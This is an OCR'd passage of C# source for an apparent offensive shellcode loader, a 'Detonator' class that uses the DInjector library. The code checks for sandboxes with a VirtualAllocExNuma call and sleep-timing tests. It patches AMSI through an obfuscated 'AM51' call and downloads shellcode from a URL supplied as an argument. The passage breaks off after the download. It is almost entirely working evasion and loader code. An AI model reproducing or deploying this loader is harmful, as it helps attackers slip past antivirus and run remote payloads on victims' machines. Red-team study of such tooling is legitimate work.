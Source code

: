 ```
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using DInjector;

internal class Detonator
{
	[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
	private static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect, uint nndPreferred);

	[DllImport("kernel32.dll")]
	private static extern void Sleep(uint dwMilliseconds);

	private static void Boom(string[] args)
	{
		if (VirtualAllocExNuma(Process.GetCurrentProcess().Handle, IntPtr.Zero, 4096u, 12288u, 4u, 0u) == IntPtr.Zero)
		{
			return;
		}
		int num = new Random().Next(2000, 3000);
		double num2 = (double)((uint)num / 1000u) - 0.5;
		DateTime now = DateTime.Now;
		Sleep((uint)num);
		if (DateTime.Now.Subtract(now).TotalSeconds < num2)
		{
			return;
		}
		Dictionary<string, string> dictionary = ArgumentParser.Parse(args);
		try
		{
			if (bool.Parse(dictionary["/am51"]))
			{
				AM51.Patch();
			}
		}
		catch (Exception)
		{
		}
		string text = string.Empty;
		foreach (KeyValuePair<string, string> item in dictionary)
		{
			if (item.Value == string.Empty)
			{
				text = item.Key;
			}
		}
		string text2 = dictionary["/sc"];
		string password = dictionary["/password"];
		byte[] data;
		if (text2.IndexOf("http", StringComparison.OrdinalIgnoreCase) >= 0)
		{
			Console.WriteLine("(Detonator) [*] Loading shellcode from URL");
			WebClient webClient = new WebClient();
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls | SecurityProtocolType.Tls11 | SecurityProtocolType.Tls12;
			MemoryStream memoryStream = new MemoryStream(webClient.DownloadData(text2));
			data = new BinaryReader(memoryStream).ReadBytes(Convert.ToInt32(memoryStream.Length));
```
